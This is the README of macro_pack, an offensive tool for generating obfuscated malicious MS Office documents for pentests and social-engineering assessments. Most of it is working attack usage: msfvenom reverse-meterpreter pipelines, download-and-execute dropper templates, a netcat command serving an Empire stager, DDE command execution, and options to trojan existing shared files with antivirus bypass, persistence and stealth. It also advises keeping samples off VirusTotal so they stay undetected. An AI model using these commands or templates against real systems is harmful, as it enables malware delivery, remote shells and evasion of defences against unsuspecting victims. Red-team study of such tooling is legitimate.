

# macro\_pack

## Short description

The macro\_pack is a tool used to automatize obfuscation and generation of MS Office documents for pentest, demo,  and social engineering assessments.
The goal of macro\_pack is to simplify antimalware solutions bypass and automatize the process from vba generation to final Office document generation.  
It is very simple to use:
* No configuration
* Everything can be done using a single line of code
* Generation of Word, Excel, and PowerPoint documents
* Advanced VBA macro attacks as well as DDE attacks

The tool is compatible with payloads generated by popular pentest tools (Metasploit, Empire, ...).
It is also easy to combine with other tools as it is possible to read input from stdin and have a quiet output to another tool.
This tool is written in Python3 and works on both Linux and Windows platform.

**Note:** Windows platform with genuine MS Office installed is required for Office documents automatic generation or trojan features.

<p align="center"></p>

### Obfuscation

The tool will use various obfuscation techniques, all automatic.
Basic obfuscation (-o option) includes:
* Renaming functions
* Renaming variables
* Removing spaces
* Removing comments
* Encoding Strings

Note that the main goal of macro\_pack obfuscation is not to prevent reverse engineering, it is to prevent antivirus detection.


### Ethical use

The macro\_pack tool shall only be used by pentester, security researchers, or other people with learning purpose. 
I condamn all use of security tools for unethical actions (weather these ar legal or illegal).
I know this will not prevent usage by malicious people and that is why all features are not publicly released.

### About pro mode...
You may notice that not all part of macro\_pack is available. Only the community version is available online.
I fear the features in the pro version are really too much "weaponizing" the process and I do not want it available to all script kiddies out there.
The pro mode includes features such as:
* Advance antimalware bypass
* VBOM security bypass
* Self decoding VBA
* MS Office persistance
* Trojan existing MS Office documents
* Anti-debug using http://seclists.org/fulldisclosure/2017/Mar/90

I do not know yet what I intend to do with pro mode, release it, keep it for myself, sell it? 


## Run/Install

### Run Windows binary
1) Get the latest binary from https://github.com/sevagas/macro_pack/releases/
2) Download binary on PC with genuine Microsoft Office installed.
3) Open console, CD to binary dir and call the binary, simple as that!
```bash
macro_pack.exe --help
```

### Install from sources
Download and install dependencies:
```bash
git clone https://github.com/sevagas/macro_pack.git
cd macro_pack
pip3 install -r requirements.txt
```

**Note:** For windows, you also need to download manually pywin32 from https://sourceforge.net/projects/pywin32/files/pywin32/

The tool is in python 3 so just start with with your python3 install. ex:
```bash
python3 macro_pack.py  --help
# or
python macro_pack.py --help # if python3 is default install
```
If you want to produce a standalone exe using pyinstaller, double-click on the "build.bat" script on a Windows machine.
The resulted macro\_pack.exe will be inside the **bin** directory.


## Some examples

### macro\_pack community

- Obfuscate the vba file generated by msfvenom and put result in a new vba file.
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.5 -f vba | macro_pack.exe -o -v meterobf.vba
```

- Obfuscate Empire stager vba file and generate a MS Word document: 
```bash
macro_pack.exe -f empire.vba -o -W myDoc.docm
```

- Generate an MS Excel file containing an obfuscated dropper (download payload.exe and store as dropped.exe)
```bash
echo "https://myurl.url/payload.exe" "dropped.exe" |  macro_pack.exe -o -t DROPPER -X "drop.xlsm" 
```

- Create a word 97 document containing an obfuscated VBA reverse meterpreter payload inside a share folder: 
```bash
msfvenom.bat -p windows/meterpreter/reverse_tcp LHOST=192.168.0.5 -f vba | macro_pack.exe -o -w \\REMOTE-PC\Share\meter.doc   
```

- Download and execute Empire Launcher stager without powershell.exe by using DROPPER_PS template
```bash
# 1 Generate a fiez containing Empire lauchcher 
# 2 Make that file available on web server, ex with netcat:
{ echo -ne "HTTP/1.0 200 OK\r\n\r\n"; cat empire_stager.cmd; } | nc -l -p 6666 -q1
# 3 Use macro\_pack  to generate DROPPER_PS payload in Excel file
echo http://10.5.5.12:6543/empire_stager.cmd | macro_pack.exe -o -t DROPPER_PS -x join_the_empire.xls
# 4 When executed on target, the macro will download PowerShdll, run it with rundll32, and download and execute stager.
```

- Execute calc.exe via Dynamic Data Exchange (DDE) attack
```bash
echo calc.exe | macro_pack.exe --dde -W dde_test.docx
```

- Download and execute file via powershell using Dynamic Data Exchange (DDE) attack
```bash
# 1 Change the target file URL in resources\community\ps_dl_exec.cmd
# 2 Embed download execute cmd in document
python macro_pack.py --dde -f ..\resources\community\ps_dl_exec.cmd -w DDE.doc
```

### macro\_pack pro

- Trojan the existing shared "report.xlsm" file with a dropper. Use anti-AV and anti-debug features.
```bash
echo "http://10.5.5.12/drop.exe" "dropped.exe" | macro_pack.exe -o -t DROPPER2 --trojan --av-bypass --stealth  -x "E:\accounting\report.xls"   
```

- Genenerate a Word file containing VBA self encoded x64 reverse meterpreter VBA payload (will bypass most AV). Keep-alive is needed because we need meterpreter to stay alive before we migrate.
```bash
msfvenom.bat -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.0.5 -f vba |  macro_pack.exe -o --vbom-encode --keep-alive  -W  out.docm
```

- Trojan a PowerPoint file with a reverse meterpreter. Macro is obfuscated and mangled to bypass most antiviruses. 
```bash
msfvenom.bat -p windows/meterpreter/reverse_tcp LHOST=192.168.0.5 -f vba |  macro_pack.exe -o --av-bypass --trojan -P  hotpics.pptm
```


## All available options

### General options:
```
    -f, --input-file=INPUT_FILE_PATH A VBA macro file or file containing params for --template option 
        If no input file is provided, input must be passed via stdin (using a pipe).
        
    -q, --quiet \tDo not display anything on screen, just process request. 
    
    -o, --obfuscate \tSame as '--obfuscate-form --obfuscate-names --obfuscate-strings'
    --obfuscate-form\tModify readability by removing all spaces and comments in VBA
    --obfuscate-strings\tRandomly split strings and encode them
    --obfuscate-names \tChange functions, variables, and constants names
      
    -s, --start-function=START_FUNCTION   Entry point of macro file 
        Note that macro_pack will automatically detect AutoOpen, Workbook_Open, or Document_Open  as the start function
        
    -t, --template=TEMPLATE_NAME    Use VBA template already included in macro_pack.exe.
        Available templates are: HELLO, DROPPER, DROPPER2, DROPPER_PS, METERPRETER, EMBED_EXE 
        Help for template usage: macro_pack.exe -t help
         
    -v, --vba-output=VBA_FILE_PATH Output generated vba macro (text format) to given path. 
  Notes:
    If no output file is provided, the result will be displayed on stdout.
    Combine this with -q option to pipe only processed result into another program
    ex: macro_pack.exe -f my_vba.vba -o -q | another_app
    Another valid usage is:
    cat input_file.vba | macro_pack.exe -o -q  > output_file.vba
```

### macro\_pack Pro only:
```   
    --vbom-encode   Use VBA self encoding to bypass antimalware detection and enable VBOM access (will exploit VBOM self activation vuln).
                  --start-function option may be needed.
    --av-bypass  Use various tricks  efficient to bypass most av (combine with -o for best result)
    --keep-alive    Use with --vbom-encode option. Ensure new app instance will stay alive even when macro has finished
    --persist       Use with --vbom-encode option. Macro will automatically be persisted in application startup path
                    (works with Excel documents only). The macro will then be executed anytime an Excel document is opened (even non-macro documents).
    --trojan       Inject macro in an existing MS office file. Use in conjunction with -x, -X, -w, or -W
    --stealth      Anti-debug and hiding features
```

### Windows only
MS Office document generation requires to be running on Windows machine with genuine MS Office installed.

```
    -X, --excel-output=EXCEL_FILE_PATH   Generates MS Excel (*.xlsm) file containing the macro.
    -x, --excel97-output=EXCEL_FILE_PATH Generates MS Excel 97-2003 (*.xls) file containing the macro.
    -W, --word-output=WORD_FILE_PATH     Generates MS Word (.docm) file containing the macro.
    -w, --word97-output=WORD_FILE_PATH   Generates MS Word 97-2003 (.doc) file containing the macro.
    -P, --ppt-output=PPT_FILE_PATH        Generates MS PowerPoint (.pptm) file.
    --dde   Dynamic Data Exchange attack mode. Input will be inserted as a cmd command and executed via DDE
     DDE attack mode is not compatible with VBA Macro related options.
```

## Template usage
  
Templates can be called using  -t, --template=TEMPLATE_NAME combined with other options.  
Here are all the available templates.

            
### HELLO  
Just print a hello message and awareness about macro  
Give this template the name or email of the author   
  -> Example: ```echo "@Author" | macro_pack.exe -t HELLO -P hello.pptm```
  
            
### DROPPER
Download and execute a file.  
Give this template the file url and the target file path  
  -> Example:  ```echo <file_to_drop_url> "<download_path>" | macro_pack.exe -t DROPPER -o -x dropper.xls```
  
        
### DROPPER2
Download and execute a file. File attributes are also set to system, read-only, and hidden.  
Give this template the file url and the target file path.  
  -> Example:  ```echo <file_to_drop_url> "<download_path>" | macro_pack.exe -t DROPPER2 -o -X dropper.xlsm```
   
        
### DROPPER_PS
Download and execute Powershell script using rundll32 (to bypass blocked powershell.exe).  
Note: This payload will download PowerShdll from Github.  
Give this template the url of the powershell script you want to run  
 -> Example:  ```echo "<powershell_script_url>" | macro_pack.exe -t DROPPER_PS -o -w powpow.doc```
  
        
### METERPRETER  
Meterpreter reverse TCP template using MacroMeter by Cn33liz.  
This template is CSharp Meterpreter Stager build by Cn33liz and embedded within VBA using DotNetToJScript from James Forshaw.  
Give this template the IP and PORT of listening mfsconsole  
 -> Example: ```echo <ip> <port> | macro_pack.exe -t METERPRETER -o -W meter.docm``` 
 
Recommended msfconsole options (use exploit/multi/handler):
```
set PAYLOAD windows/meterpreter/reverse_tcp
set AutoRunScript post/windows/manage/smart_migrate
set EXITFUNC thread
set EnableUnicodeEncoding true
set EnableStageEncoding true
set ExitOnSession false
```

Warning: This is a 32 bit meterpreter so it will crash Office if Office 64bit is installed!


### EMBED_EXE
Will encode an executable inside the vba. When macro is played, exe will be decoded and executed (hidden) on file system.
This template is inspired by https://github.com/khr0x40sh/MacroShop
Give this template the path to exe you want to embed in vba and, optionaly, the path where exe should be extracted
If extraction path is not given, exe will be extracted with random name in current path.  
 -> Example1: ```echo "path\\to\my_exe.exe" | macro_pack.exe  -t EMBED_EXE -o -X my_exe.xlsm```  
 -> Example2: ```echo "path\\to\my_exe.exe" "D:\\another\path\your_exe.exe" | macro_pack.exe  -t EMBED_EXE -o -X my_exe.xlsm```  


## Efficiency

The various features were tested against localy installed Antimalware solutions as well as online service. I ran multiple tests with several kind of payloads and macro\_pack features.
A majority of antivirus will be evaded by the simple "obfuscate" option. Features available in pro mode generally ensure full AV bypass.

### Example with Empire VBA stager:

Here are the results of NoDistribute scanner for the regular Empire VBA stager
<p align="center"></p>

Here are the results with the macro\_pack -o (--obfuscate) option
<p align="center"></p>

**Warning:** Do not submit your samples to online scanner (ex VirusTotal), Its the best way to break your stealth macro.
I also suggest you do not submit to non reporting site such as NoDistribute. You cannot be sure what these sites will do with the data you submit. 
If you have an issue with macro\_pack AV detection you can write to us for advice or submit an issue or pull request.


## Relevant resources

Blog post about MS Office security:
 - http://blog.sevagas.com/?My-VBA-Bot (write a full VBA RAT, includes how to bypass VBOM protection)
 - http://pwndizzle.blogspot.fr/2017/03/office-document-macros-ole-actions-dde.html
 - https://sensepost.com/blog/2017/macro-less-code-exec-in-msword/ (About Dynamic Data Exchange attacks)
 
 Other useful links:
 - https://github.com/p3nt4/PowerShdll (Run PowerShell with dlls only)
 - https://gist.github.com/vivami/03780dd512fec22f3a2bae49f9023384 (Run powershel script with PowerShdll VBA implementation)
 - https://enigma0x3.net/2016/03/15/phishing-with-empire/ (Generate Empire VBA payload)
 - https://github.com/EmpireProject/Empire
 - https://medium.com/@vivami/phishing-between-the-app-whitelists-1b7dcdab4279
 - https://www.metasploit.com/
 - https://github.com/Cn33liz/MacroMeter
 

## Contact

Feel free to message me on my Twitter account [@EmericNasi](http://twitter.com/EmericNasi)


## License and credits

[The Apache License 2.0](https://www.apache.org/licenses/LICENSE-2.0.html)

Copyright 2017 Emeric “Sio” Nasi ([blog.sevagas.com](http://blog.sevagas.com))


